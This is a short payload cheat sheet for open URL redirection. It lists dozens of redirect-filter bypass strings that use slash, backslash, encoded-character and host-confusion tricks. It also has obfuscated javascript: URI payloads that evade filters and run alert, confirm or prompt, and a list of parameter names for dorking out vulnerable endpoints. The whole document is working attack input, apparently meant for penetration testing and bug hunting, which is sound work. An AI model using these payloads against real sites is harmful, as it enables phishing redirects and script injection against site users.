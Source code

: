 # open-url-redirection-payloads

\/yoururl.com

\/\/yoururl.com

\\yoururl.com

//yoururl.com

//theirsite@yoursite.com

/\/yoursite.com

https://yoursite.com%3F.theirsite.com/

https://yoursite.com%2523.theirsite.com/

https://yoursite?c=.theirsite.com/ (use # \ also)

//%2F/yoursite.com

////yoursite.com

https://theirsite.computer/

https://theirsite.com.mysite.com

/%0D/yoursite.com (Also try %09, %00, %0a, %07)

/%2F/yoururl.com

/%5Cyoururl.com

//google%E3%80%82com

java%0d%0ascript%0d%0a:alert(0)

j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`

java%07script:prompt`0`

java%09scrip%07t:prompt`0`

jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript

pjavascriptt:confirm`0`



#google dorking to find vulnerable endpoints:
return, return_url, rUrl, cancelUrl, url, redirect, follow, goto, returnTo, returnUrl, r_url,
history, goback, redirectTo, redirectUrl, redirUrl

